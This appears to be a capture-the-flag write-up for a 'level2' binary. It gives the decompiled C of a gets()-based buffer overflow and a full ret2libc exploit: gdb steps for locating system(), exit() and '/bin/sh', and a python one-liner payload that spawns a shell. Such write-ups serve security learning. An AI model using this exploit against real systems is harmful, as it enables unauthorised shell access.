 Here is the decompiled binary :

```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)

{
  p();
  return;
}
```

We can perform a ret2libc attack on this code (https://shellblade.net/files/docs/ret2libc.pdf)

Our payload should be like this : 

```
[ padding ] + [ addr of ret instruction in p() ] + [ addr of system() ] + [ addr of exit() ] + [ addr of "/bin/sh" ]
```

To find those address we can do in gdb :

`gdb ./level2` then `b main` then run the program, and then `p system/exit`
for ret address of p() : disas p and look at the address of the instruction ret.
for the string "/bin/sh", we can find it inside libc :

`info proc mappings` then find the start address and the end address and then :

`find start_addr, end_addr, "/bin/sh"`

So we have all the elements for the payload :

offset : 80
ret address : 0x0804853e <+106>: ret
system() address : $1 = {<text variable, no debug info>} 0xb7e6b060 <system>
exit() address : $2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
`"/bin/sh"` : (gdb) 0xb7f8cc58

Our payload will look like this :
`(python -c 'print("A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" +  "\x58\xcc\xf8\xb7")'; cat) | ./level2`

And we have a shell.
